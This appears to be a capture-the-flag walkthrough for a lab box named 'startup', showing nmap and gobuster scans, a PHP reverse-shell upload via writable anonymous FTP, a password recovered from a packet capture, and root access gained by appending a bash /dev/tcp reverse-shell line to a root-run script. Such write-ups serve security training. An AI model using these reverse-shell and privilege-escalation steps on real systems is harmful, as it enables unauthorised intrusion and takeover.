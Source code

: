 #### IP `10.10.241.74`



#### 1. First of all and as always we run nmap:
```
──(kali㉿kali)-[~]
└─$ nmap -Pn -A -T4 10.10.241.74
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 13:53 EST
Warning: 10.10.241.74 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.241.74
Host is up (0.20s latency).
Not shown: 994 closed ports
PORT      STATE    SERVICE        VERSION
21/tcp    open     ftp            vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.6.46.150
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open     ssh            OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp    open     http           Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
900/tcp   filtered omginitialrefs
5906/tcp  filtered unknown
11110/tcp filtered sgi-soap
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.73 seconds
                                                                     
```

These ports are open:
```
21
22
80
900
5906
1111
```


#### 2. Secondly, it is always good to run gobuster to get a list of directories available and also check `/robots.txt` 

```
sgobuster dir -u http://10.10.241.74 -w /usr/share/wordlists/dirb/common.txt ===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.241.74
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/10 13:52:52 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/files (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2021/01/10 13:54:58 Finished
===============================================================
```

It seems that there is a directory `/files` however, after a quick look there is nothing helpful there. These are files visible from ftp, so we will benefir from it in next point.
                                                                       


#### 3. We come back to ftp port.

We login as `Anonymous` and tap enter while prompted for password. Command `dir` shows available files (with no useful informations) but there is also `ftp` directory where anonymous user has writing permission.

In this case we will try to get a shell with netcat and reverse php:

- we save pentest monkey's  (or a one liner) reverse shell script as `shell.php`
- run netcat in separate terminal `sudo nc -lvnp 4444`
- upload `shell.php` to ftp directory with `put shell.php`
- open `http://10.10.241.74/files/ftp/shell.php` in a browser, click on it and get shell as `www-data`

There is a file called recipe.txt, so quick `cat` to answer first question:
```
ww-data@startup:/$ cat recipe.txt
cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was XXXX
```


#### 4. Indicents directory

Besides `recipe.txt` there is a directory named `incidents`

```
www-data@startup:/$ ls -lah
ls -lah
total 100K
drwxr-xr-x  25 root     root     4.0K Jan 10 18:52 .
drwxr-xr-x  25 root     root     4.0K Jan 10 18:52 ..
drwxr-xr-x   2 root     root     4.0K Sep 25 08:12 bin
drwxr-xr-x   3 root     root     4.0K Sep 25 08:12 boot
drwxr-xr-x  16 root     root     3.5K Jan 10 18:51 dev
drwxr-xr-x  96 root     root     4.0K Nov 12 05:08 etc
drwxr-xr-x   3 root     root     4.0K Nov 12 04:53 home
drwxr-xr-x   2 www-data www-data 4.0K Nov 12 04:53 incidents
lrwxrwxrwx   1 root     root       33 Sep 25 08:12 initrd.img -> boot/initrd.img-4.4.0-190-generic
lrwxrwxrwx   1 root     root       33 Sep 25 08:12 initrd.img.old -> boot/initrd.img-4.4.0-190-generic
drwxr-xr-x  22 root     root     4.0K Sep 25 08:22 lib
drwxr-xr-x   2 root     root     4.0K Sep 25 08:10 lib64
drwx------   2 root     root      16K Sep 25 08:12 lost+found
drwxr-xr-x   2 root     root     4.0K Sep 25 08:09 media
drwxr-xr-x   2 root     root     4.0K Sep 25 08:09 mnt
drwxr-xr-x   2 root     root     4.0K Sep 25 08:09 opt
dr-xr-xr-x 128 root     root        0 Jan 10 18:51 proc
-rw-r--r--   1 www-data www-data  136 Nov 12 04:53 recipe.txt
drwx------   4 root     root     4.0K Nov 12 04:54 root
drwxr-xr-x  25 root     root      920 Jan 10 19:13 run
drwxr-xr-x   2 root     root     4.0K Sep 25 08:22 sbin
drwxr-xr-x   2 root     root     4.0K Nov 12 04:50 snap
drwxr-xr-x   3 root     root     4.0K Nov 12 04:52 srv
dr-xr-xr-x  13 root     root        0 Jan 10 19:19 sys
drwxrwxrwt   7 root     root     4.0K Jan 10 19:23 tmp
drwxr-xr-x  10 root     root     4.0K Sep 25 08:09 usr
drwxr-xr-x   2 root     root     4.0K Nov 12 04:50 vagrant
drwxr-xr-x  14 root     root     4.0K Nov 12 04:52 var
lrwxrwxrwx   1 root     root       30 Sep 25 08:12 vmlinuz -> boot/vmlinuz-4.4.0-190-generic
lrwxrwxrwx   1 root     root       30 Sep 25 08:12 vmlinuz.old -> boot/vmlinuz-4.4.0-190-generic
www-data@startup:/$ 
```

and `suspicious.pcapng` file which looks like wireshark's packet file but do not get confused :)

```
www-data@startup:/incidents$ ls -lah
ls -lah
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Nov 12 04:53 .
drwxr-xr-x 25 root     root     4.0K Jan 10 18:52 ..
-rwxr-xr-x  1 www-data www-data  31K Nov 12 04:53 suspicious.pcapng
```

#### 5. Investigating the file.

I quickly run a python http server `python3 -m http.server` and downloade a file to my local machine, as there is no `strings` command installed on a box.

Here is what we have:

```
$ strings suspicious.pcapng              

Qcd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ 
lennie
www-data@startup:/home$ 
cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ |
.?:MD
sudo -l
sudo -l
[sudo] password for www-data: 
c4nXXXXXXXXXc3
6%	@
Sorry, try again.
[sudo] password for www-data: 
^/Sorry, try again.
[sudo] password for www-data: 
c4nXXXXXXXXXc3
sudo: 3 incorrect password attempts
www-data@startup:/home$ |
```

A giant file with some logs. Once we have a deeper look at it, among  different commands there is a username `lennie` and passswordlike word, which in the end turns out to ba that user's pass (it is very illogic for me)


#### 6. Enumaration while logged as `lennie`

I run `linpeas.sh` in order to get some useful informations, however did not find anything. 

Our user `lennie` has permissions to run `/etc/print.sh` script so by appending a reverse shell onliner and running netcat, there is a chance to get another shell as root.

I type `echo "bash -i &>/dev/tcp/$MYIP/$NCPORT <&1" >> /etc/print.sh`

```
lennie@startup:~$ echo "bash -i &>/dev/tcp/10.6.46.150/4444 <&1" >> /etc/print.s 
lennie@startup:~$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
bash -i &>/dev/tcp/10.6.46.150/4444 <&1
lennie@startup:~$ 

```

wait a little and bingo:

```
──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 4444
[sudo] password for kali: 
listening on [any] 4444 ...
connect to [10.6.46.150] from (UNKNOWN) [10.10.212.41] 54316
bash: cannot set terminal process group (1402): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# ls -la
ls -la
total 28
drwx------  4 root root 4096 Nov 12 04:54 .
drwxr-xr-x 25 root root 4096 Jan 10 20:23 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 Nov 12 04:54 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   38 Nov 12 04:53 root.txt
drwx------  2 root root 4096 Nov 12 04:50 .ssh
root@startup:~# cat root.txt
cat root.txt
THM{f963XXXXXXXXXXXXXXXXXXXXXXXX6d}
root@startup:~# 
```
